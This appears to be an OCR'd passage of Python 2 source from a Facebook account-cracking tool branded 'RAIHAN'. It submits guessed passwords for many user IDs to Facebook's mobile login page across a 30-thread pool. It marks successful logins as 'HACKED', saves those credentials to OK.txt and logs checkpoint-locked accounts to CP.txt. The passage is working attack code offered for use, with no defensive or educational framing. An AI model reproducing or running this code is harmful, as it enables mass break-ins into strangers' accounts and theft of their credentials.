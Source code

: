                                                                     print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps14 + '\x1b[0;97m'
                                                                    ok = open('OK.txt', 'a')
                                                                    ok.write(uid + '|' + ps14 + '\n')
                                                                    ok.close()
                                                                    oks.append(uid + ps14)
                                                                elif 'checkpoint' in sp:
                                                                    print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps14 + '\x1b[0;97m'
                                                                    cp = open('CP.txt', 'a')
                                                                    cp.write(uid + '|' + ps14 + '\n')
                                                                    cp.close()
                                                                    cps.append(uid + ps14)
                                                                else:
                                                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                        'email': uid,
                                                                        'pass': ps15,
                                                                        'login': 'submit' })
                                                                    sp = data.content
                                                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                                        print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps15 + '\x1b[0;97m'
                                                                        ok = open('OK.txt', 'a')
                                                                        ok.write(uid + '|' + ps15 + '\n')
                                                                        ok.close()
                                                                        oks.append(uid + ps15)
                                                                    elif 'checkpoint' in sp:
                                                                        print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps15 + '\x1b[0;97m'
                                                                        cp = open('CP.txt', 'a')
                                                                        cp.write(uid + '|' + ps15 + '\n')
                                                                        cp.close()
                                                                        cps.append(uid + ps15)
        except:
            pass
        
 
 
    p = ThreadPool(30)
    p.map(main, id)
    print '\x1b[1;97m======================================================='
    print '\x1b[1;37m[=] PROCESS HAS BEEN COMPLETE'
    print '\x1b[1;37m[=] TOTAL OK : \x1b[1;32m' + str(len(oks))
    print '\x1b[1;37m[=] TOTAL CP : \x1b[1;31m' + str(len(cps))
    print '\x1b[1;97m======================================================='
    raw_input('\x1b[1;37mPRESS ENTER TO BACK MENU ')
    menu()
 
 
def sing():
    global token
    os.system('clear')
    
    try:
        token = open('RAIHAN_token.txt', 'r').read()
    except IOError:
        print ''
        print '\tToken not found'
        time.sleep(1)
        login()
 